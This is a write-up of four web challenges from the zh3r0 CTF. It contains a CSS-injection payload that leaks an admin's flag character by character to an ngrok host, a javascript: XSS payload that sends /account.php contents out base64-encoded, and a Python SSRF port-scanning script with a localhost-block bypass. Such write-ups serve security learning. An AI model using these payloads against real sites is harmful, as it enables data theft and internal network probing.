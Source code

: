 # Web challenge write-ups

Combining these web challenges into one document since I don't feel like making
detailed write-ups.

## Flags

**Category**: web \
**Solves**: 20 \
**Points**: 871 \
**Author**: navy

Here is a website where each user gets a flag. However, only the admin has the
correct flag. Can you guess it?

Mirror 1 - http://web.zh3r0.cf:4444 \
Mirror 2 - http://web.zh3r0.cf:4321 \
Download - [Flags.tar.gz](Flags.tar.gz)

### Solution

> Solved with @uanirudhx, who did most of the work

```ejs
        <meta http-equiv='Content-Security-Policy' content="script-src 'nonce-<%=bytes%>'; object-src 'none'; base-uri 'none'require-trusted-types-for 'script'; frame-src 'none'">
...
        <div class="flagDisplay">
            <p>Your flag is</p>
            <%- flagProfile %>
        </div>
        <div class="form">
            <form action="/check" method="post">
                <fieldset>
                    <legend>Check if your flag matches the admin's</legend>
                    <div class="flag">
                        <input type="flag" name="flag" value="<%= flag %>">
                    </div>
                        <button type="submit" name="submit" value="submit">Check</button>
                </fieldset>
            </form>
```

We have reflected HTML in `flagProfile`. Our goal is to exfiltrate the admins
flag from

```ejs
<input type="flag" name="flag" value="<%= flag %>">.
```

Script execution is blocked by CSP, but we can inject CSS to leak characters
one by one:
```html
<style>
.flag { display: block !important; }
input[value^="zh3r0{a"] { background-image: url(http://d92615501434.ngrok.io/a); }
input[value^="zh3r0{b"] { background-image: url(http://d92615501434.ngrok.io/b); }
input[value^="zh3r0{c"] { background-image: url(http://d92615501434.ngrok.io/c); }
...
input[value^="zh3r0{8"] { background-image: url(http://d92615501434.ngrok.io/8); }
input[value^="zh3r0{9"] { background-image: url(http://d92615501434.ngrok.io/9); }
input[value^="zh3r0{_"] { background-image: url(http://d92615501434.ngrok.io/_); }
input[value^="zh3r0{{"] { background-image: url(http://d92615501434.ngrok.io/%7B); }
input[value^="zh3r0{}"] { background-image: url(http://d92615501434.ngrok.io/%7D); }
</style>
```

Unfortunately the challenge organizers really messed up the infra on this one.
I would constantly be logged out for no reason, making it annoying to test the
exploit. Also why did they have to make the flag so long?
```
zh3r0{this_is_a_flag_02b0482ec93d9f5688d5e0562fc2e2db}
```

Solve script in `flags_solve.py`

## Original Store

**Category**: web \
**Solves**: 22 \
**Points**: 842 \
**Author**: DreyAnd

Hi! Check out our car dealership platform - the Original Store at
[Store](http://35.200.166.215:5555/). We also have a contest running right now
and who has the best car wins! You can send us your car's images at
[bot](http://35.200.166.215:5556/).

## Solution

Sourceless XSS challenge. After some 20 min of guessing I found an unintended solution

```
javascript:fetch('/account.php').then((r)=>r.text()).then((r)=>window.location.href='http://abca940c718f.ngrok.io/'+window.btoa(r))
```

```
zh3r0{4dm1n_l0ves_0nly_0r1g1n4ls_br0}
```

For reference,
[Carmen San Diego](https://gist.github.com/bluepichu/6898d0f15f9b58ba5a0571213c3896a2)
from [PlaidCTF 2021](https://ctftime.org/event/1199) had the same unintended
solution.

> Author's intended solution: https://dreyand.github.io/zh3r0-ctfv2/original-store/

## Original Store v2

**Category**: web \
**Solves**: 20 \
**Points**: 871 \
**Author**: DreyAnd

## Overview

Exactly the same as the previous one, except now the cookie is `HttpOnly:
true`. Fortunately(?) this doesn't fix the unintended solution:

## Solution

```
javascript:fetch('/account.php').then((r)=>r.text()).then((r)=>window.location.href='http://abca940c718f.ngrok.io/'+window.btoa(r))
```

```
zh3r0{4dm1n_h4tes_car_st34l3rs_br0}
```

## Baby SSRF

**Category**: web \
**Solves**: 40 \
**Points**: 453 \
**Author**: ZyperX

Yet another server challenge :)

Link - http://web.zh3r0.cf:6969

## Solution

> Solved with @uanirudhx

Weird challenge with no source provided. There's a page where you can request a
URL and get the headers returned. For some reason `localhost` is blocked, but
that's easily bypassed using `http://localtest.me` or a 302 redirect.

We guessed that we had to scan ports on `localhost` and the flag would
magically appear in the header.

Unfortunately, my connection is super slow so I just rented a VPS in India
which scanned 5000 ports in under a minute:

```python
import requests
import sys

chall_url = "http://web.zh3r0.cf:6969"
redir_url = "http://localtest.me"


def check_port(port: int):
    data = {"url": f"{redir_url}/{port}"}
    res = requests.post(f"{chall_url}/request", data)
    return res.text


start = int(sys.argv[1])
end = int(sys.argv[2])

for port in range(start, end):
    print(f"[*] Checking port {port}")
    html = check_port(port)
    if "Learn about URL" not in html:
        print(f"[+] Found something on {port}")
        print(f"[*] HTML: {html}")
        open(f"port_{port}.txt", "w").write(html)
```

Turns out the port was 9006.

```
zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}
```
